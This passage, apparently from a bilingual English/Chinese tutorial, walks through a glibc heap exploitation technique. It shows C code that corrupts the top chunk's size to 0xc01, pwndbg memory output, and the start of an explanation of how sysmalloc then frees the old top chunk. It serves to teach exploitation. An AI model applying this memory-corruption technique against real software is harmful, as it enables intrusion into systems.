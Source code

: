 ``` c
       So that means that there are two conditions that must always be true.
       这也意味着这两种情况一定是对的：
        1) Top chunk + size has to be page aligned
        Top chunk + size 一定是按页对齐的
        2) Top chunk's prev_inuse bit has to be set.
        Top chunk 的 PREV_INUSE 位一定是被设置的

       We can satisfy both of these conditions if we set the size of the Top chunk to be 0xc00 | PREV_INUSE.
       我们可以通过设置Top chunk的size为0xc00|PREV_INUSE满足这两个条件
       What's left is 0x20c01


       Now, let's satisfy the conditions
       1) Top chunk + size has to be page aligned
       2) Top chunk's prev_inuse bit has to be set.
    */
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
```

此时 top chunk 的 size 被修改为 0xc01，满足了上面的条件。

```
pwndbg> x/20gx 0x602400
0x602400:	0x0000000000000000	0x0000000000000c01
0x602410:	0x0000000000000000	0x0000000000000000
0x602420:	0x0000000000000000	0x0000000000000000
0x602430:	0x0000000000000000	0x0000000000000000
0x602440:	0x0000000000000000	0x0000000000000000
0x602450:	0x0000000000000000	0x0000000000000000
0x602460:	0x0000000000000000	0x0000000000000000
0x602470:	0x0000000000000000	0x0000000000000000
0x602480:	0x0000000000000000	0x0000000000000000
0x602490:	0x0000000000000000	0x0000000000000000
```

接下来我们申请了一个 0x1000 的 chunk：

``` c
    /* 
       Now we request a chunk of size larger than the size of the Top chunk.
       现在我们申请了一个比Top chunk大的 chunk
       Malloc tries to service this request by extending the Top chunk
       Malloc 会尝试扩展 Top chunk 满足这一要求
       This forces sysmalloc to be invoked.
       这会强制调用 sysmalloc

       In the usual scenario, the heap looks like the following
       在通常情况下，堆看起来如下所示：
          |------------|------------|------...----|
          |    chunk   |    chunk   | Top  ...    |
          |------------|------------|------...----|
      heap start                              heap end

       And the new area that gets allocated is contiguous to the old heap end.
       新的 area 会在旧的堆后面 get allocated
       So the new size of the Top chunk is the sum of the old size and the newly allocated size.
       所以Top chunk 的新 size是旧的size和新申请的size之和。

       In order to keep track of this change in size, malloc uses a fencepost chunk,
       为了跟踪这种大小的变化，malloc使用了fencepost chunk，这是一种临时块。
       which is basically a temporary chunk.

       After the size of the Top chunk has been updated, this chunk gets freed.
```